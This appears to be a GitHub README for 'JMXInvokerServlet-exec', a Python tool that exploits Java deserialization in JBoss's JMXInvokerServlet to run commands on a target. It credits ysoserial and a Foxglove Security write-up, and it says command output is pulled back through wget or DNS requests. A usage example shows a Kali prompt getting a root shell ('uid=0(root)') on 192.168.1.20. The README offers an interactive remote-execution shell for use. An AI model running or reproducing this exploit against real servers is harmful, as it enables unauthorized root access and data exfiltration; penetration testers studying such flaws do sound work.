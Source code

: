 # JMXInvokerServlet-exec
JMXInvokerServlet serialized objects command execution

full credit and details at the following link:

https://github.com/frohoff/ysoserial

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

this script lets you execute and retrieve commands output (through wget or dns requests) from a vulnerable target like in a shell.

## Examples
```shell
root@kali:~/script/JMXInvokerServlet-exec/wget# python cmd_shell.py 192.168.1.20 
$> id
uid=0(root) gid=0(root) groups=0(root)

$> exit
Bye!
```

